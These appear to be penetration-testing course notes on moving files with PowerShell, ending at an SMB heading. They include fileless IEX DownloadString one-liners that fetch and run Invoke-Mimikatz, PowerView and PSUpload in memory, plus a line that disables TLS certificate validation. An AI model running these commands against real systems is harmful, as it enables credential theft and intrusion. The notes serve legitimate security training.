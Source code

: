 #### Powershell DownloadString -Fileless Method
PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias IEX.

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
We can also use pipe IEX.
```
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
#### Powershell Invoke-WebRequest
From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.
```
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
### Resources
```
https://gist.github.com/HarmJ0y/bb48307ffa663256e239
```
### Common Errors with PowerShell
- If the Internet Explorer First-Launch configuration hasn't been completed, this prevents the download.
We can bypass this by using the parameter ```-UseBasicParsing```
```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
- Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with;
```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads
SMB  enables applications and users to transfer files to and from remote servers.
